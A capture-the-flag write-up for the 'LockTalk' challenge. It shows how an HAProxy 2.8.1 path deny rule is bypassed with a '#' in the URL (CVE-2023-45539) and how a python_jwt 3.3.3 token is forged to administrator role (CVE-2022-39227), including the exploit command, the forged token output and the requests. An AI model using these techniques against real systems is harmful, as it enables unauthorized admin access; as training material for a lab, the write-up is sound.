 # LockTalk - Medium

In this challenge, participants are provided with a website and the Python source code. 
![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/8b6990b6-ecdf-46ca-a345-15e88a7d669d)


## Solution

There are several API endpoints in the source code, most of the endpoints has Authorization except `/get_ticket` endpoint. But the `/get_ticket` endpoint is denied in HAProxy config.
> /conf/haproxy.cfg
> ```cfg
> frontend haproxy
>     bind 0.0.0.0:1337
>     default_backend backend
> 
>     http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
>     
> ```

The goal in this challenge is able to sent request to `/api/v1/flag` with Authorization `role` = `administrator`.

> /challenge/app/api/routes.py
> ```py
> @api_blueprint.route('/flag', methods=['GET'])
> @authorize_roles(['administrator'])
> def flag():
>    return jsonify({'message': current_app.config.get('FLAG')}), 200
> ```

In `Dockerfile`, this challenge using HAProxy 2.8.1

> /Dockerfile
> ```Dockerfile
> RUN wget https://www.haproxy.org/download/2.8/src/haproxy-2.8.1.tar.gz && \
>    tar zxvf haproxy-*.tar.gz && cd haproxy-* && \
>    make TARGET=linux-musl && \
>    make install
> ```

This HAProxy version is vulnerable to CVE-2023-45539 that include `#` as a URI component, this can leads to bypass the restriction that has been configured.

```
GET /api/v1/get_ticket# HTTP/1.1
[..snip..]

```
![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/cb3201da-1bdb-4896-a227-fb64f9db5a22)

Second vulnerability is in python_jwt version 3.3.3.

> /conf/requirements.txt
> ```
> python_jwt==3.3.3
> ```

This version is vulnerable to CVE-2022-39227 that can forge new JWT tokens without knowing the secret key. We can use https://github.com/user0x1337/CVE-2022-39227 to change the `role` to `administrator`.

```
➜ python3 cve_2022_39227.py -j "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.JkosoYpVtrNa6jdGpVUcnNV86ercgKQ6J4BBnKJVu7BimfEhiycvFb3O7-AHd152_ok-GfzStiiiucz2oHA9yhJlQ8nHEvPqertVKqKynPqrFOKqH1M3YQsNyFR2LhklR3LfXojQQaX5lEBLTbNS0unL5IDv43wZiTeW72GYtwN4t9FeBnKyF1bpLRk0LzPM7s4vEtSBTgtGoE4jco5UbwQgDi0RG6qI-_CjO66hO3oT21YNgBKEf3pUFeO3VCcaKijUPUX0MYQWp8_qClOWZAXBpfIi_kFsX5UP5CIEGm5Fyl3Y4YzUN0TyoY34lQJadeAO4CFCkVFOEWIpb8BOjQ" -i "role=administrator"
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710863245, 'iat': 1710859645, 'jti': 'tO9tFvc1_hU8_fe6DJDwJQ', 'nbf': 1710859645, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710863245, 'iat': 1710859645, 'jti': 'tO9tFvc1_hU8_fe6DJDwJQ', 'nbf': 1710859645, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"JkosoYpVtrNa6jdGpVUcnNV86ercgKQ6J4BBnKJVu7BimfEhiycvFb3O7-AHd152_ok-GfzStiiiucz2oHA9yhJlQ8nHEvPqertVKqKynPqrFOKqH1M3YQsNyFR2LhklR3LfXojQQaX5lEBLTbNS0unL5IDv43wZiTeW72GYtwN4t9FeBnKyF1bpLRk0LzPM7s4vEtSBTgtGoE4jco5UbwQgDi0RG6qI-_CjO66hO3oT21YNgBKEf3pUFeO3VCcaKijUPUX0MYQWp8_qClOWZAXBpfIi_kFsX5UP5CIEGm5Fyl3Y4YzUN0TyoY34lQJadeAO4CFCkVFOEWIpb8BOjQ"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"JkosoYpVtrNa6jdGpVUcnNV86ercgKQ6J4BBnKJVu7BimfEhiycvFb3O7-AHd152_ok-GfzStiiiucz2oHA9yhJlQ8nHEvPqertVKqKynPqrFOKqH1M3YQsNyFR2LhklR3LfXojQQaX5lEBLTbNS0unL5IDv43wZiTeW72GYtwN4t9FeBnKyF1bpLRk0LzPM7s4vEtSBTgtGoE4jco5UbwQgDi0RG6qI-_CjO66hO3oT21YNgBKEf3pUFeO3VCcaKijUPUX0MYQWp8_qClOWZAXBpfIi_kFsX5UP5CIEGm5Fyl3Y4YzUN0TyoY34lQJadeAO4CFCkVFOEWIpb8BOjQ"}
```

Then send request to `/api/v1/flag` with new JWT token as Authorization header:
```
GET /api/v1/flag HTTP/1.1
Authorization: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA4NjMyNDUsImlhdCI6MTcxMDg1OTY0NSwianRpIjoidE85dEZ2YzFfaFU4X2ZlNkRKRHdKUSIsIm5iZiI6MTcxMDg1OTY0NSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"JkosoYpVtrNa6jdGpVUcnNV86ercgKQ6J4BBnKJVu7BimfEhiycvFb3O7-AHd152_ok-GfzStiiiucz2oHA9yhJlQ8nHEvPqertVKqKynPqrFOKqH1M3YQsNyFR2LhklR3LfXojQQaX5lEBLTbNS0unL5IDv43wZiTeW72GYtwN4t9FeBnKyF1bpLRk0LzPM7s4vEtSBTgtGoE4jco5UbwQgDi0RG6qI-_CjO66hO3oT21YNgBKEf3pUFeO3VCcaKijUPUX0MYQWp8_qClOWZAXBpfIi_kFsX5UP5CIEGm5Fyl3Y4YzUN0TyoY34lQJadeAO4CFCkVFOEWIpb8BOjQ"}
[..snip..]

```

![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/89f51c48-a569-490f-8516-fd49e20df8b8)


## Flag
HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}
